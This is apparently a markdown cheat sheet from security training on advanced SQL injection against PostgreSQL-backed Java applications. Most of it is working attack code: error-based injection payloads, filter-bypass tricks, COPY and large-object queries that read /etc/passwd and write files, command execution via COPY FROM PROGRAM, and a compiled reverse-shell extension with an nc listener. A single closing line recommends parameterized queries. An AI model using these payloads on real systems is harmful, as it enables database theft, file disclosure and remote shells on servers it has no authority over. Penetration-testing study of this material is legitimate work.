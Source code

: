 # Advanced SQLi

## Interacting with PostgreSQL

`psql -h <host> -U <username> <database>`

## Decompiling Java Archives

#### Fernflower

```bash
mkdir <OutputDirectory>
java -jar Fernflower.jar <Application>.jar <OutputDirectory>
cd <OutputDirectory>
jar -xf <Application>.jar
```

#### JD-GUI

`jd-gui <Application>.jar`

## Regex Patterns for Finding SQLi Vulnerabilities

```regex
SELECT|UPDATE|DELETE|INSERT|CREATE|ALTER|DROP
(WHERE|VALUES).*?'
(WHERE|VALUES).*" +
.*sql.*"
jdbcTemplate
```

## Live Debugging Java Applications

`java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y,suspend=y -jar <Application>.jar`

## Enabling PostgreSQL Logging

`/etc/postgresql/13/main/postgresql.conf`
- Change `#logging_collector = off` to `logging_collector = on`
- `#log_statement = 'none'` to `log_statement = 'all'`
- Uncomment `#log_directory = '...'`
- Uncomment `#log_filename = '...'`

## Common Character Bypasses

- Use `/**/` instead of `space`
- Use `$$string$$` instead of `'string'`

## Error-Based SQL Injection

```sql
' and 0=CAST((SELECT VERSION()) AS INT)--
' and 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) as INT)--
' and 1=CAST((SELECT STRING_AGG(table_name,',') FROM information_schema.tables LIMIT 1) as INT)--
';SELECT CAST(CAST(QUERY_TO_XML('SELECT ...',TRUE,TRUE,'') AS TEXT) AS INT)--
```

## Reading and Writing Files

#### Reading with COPY

```sql
CREATE TABLE tmp (t TEXT);
COPY tmp FROM '/etc/passwd';
COPY tmp FROM '/etc/hosts' DELIMITER E'\x07';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### Reading with Large Objects

```sql
SELECT lo_import('/etc/passwd');
SELECT lo_get(16513);
SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=0;
echo 726f6f743<SNIP> | xxd -r -p
```

#### Writing with COPY

```sql
CREATE TABLE tmp (t TEXT);
INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
COPY tmp TO '/tmp/proof.txt';
DROP TABLE tmp;
```

#### Writing with Large Objects

```sql
split -b 2048 /etc/passwd
xxd -ps -c 99999999999 xaa
SELECT lo_create(31337);
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('726f6f74<SNIP>6269','HEX'));
SELECT lo_export(31337, '/tmp/passwd');
SELECT lo_unlink(31337);
```

## Command Execution

#### RCE with COPY

```sql
CREATE TABLE tmp(t TEXT);
COPY tmp FROM PROGRAM 'id';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### RCE with Extensions

```bash
sudo apt install postgresql-server-dev-13
gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c
nc -nvlp 443
```

```sql
CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
SELECT rev_shell('127.0.0.1', 443);
```

## Defending Against SQL Injection

Use `parameterized queries`!
